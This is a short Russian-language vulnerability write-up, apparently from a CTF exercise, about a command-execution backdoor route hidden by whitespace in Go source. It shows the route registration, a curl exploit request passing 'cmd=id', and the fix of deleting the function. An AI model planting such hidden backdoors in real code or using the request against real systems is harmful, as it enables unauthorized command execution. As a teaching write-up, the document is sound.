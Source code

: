 ## Описание уязвимости

В исходном коде содержалась функция `frontPorch`, спрятанная за отступами и переносами строки (попробуйте пролистать вправо или вниз :trollface:). Эта функция исполняла команду в переданной переменной `cmd` и возвращала вывод этой команды. Для доступа к ней требовалось выполнить несколько условий:

1) Значение заголовка `Header` должно было равняться `nothing.to.see.here`
2) Пользователь должен быть быть авторизован.
```go
authRoutes.HandleFunc("/nothingtoseehere", frontPorch).
    Host("nothing.to.see.here").
    Methods("GET")
```

## Эксплуатация

Пример запроса, эксплуатирующего данную уязвимость:

```bash
curl 'http://$IP:8083/api/nothingtoseehere?cmd=id' --cookie 'session=$SESSION_COOKIE' -H 'Host: nothing.to.see.here'
```

## Методы исправления

Удалить эту функцию)
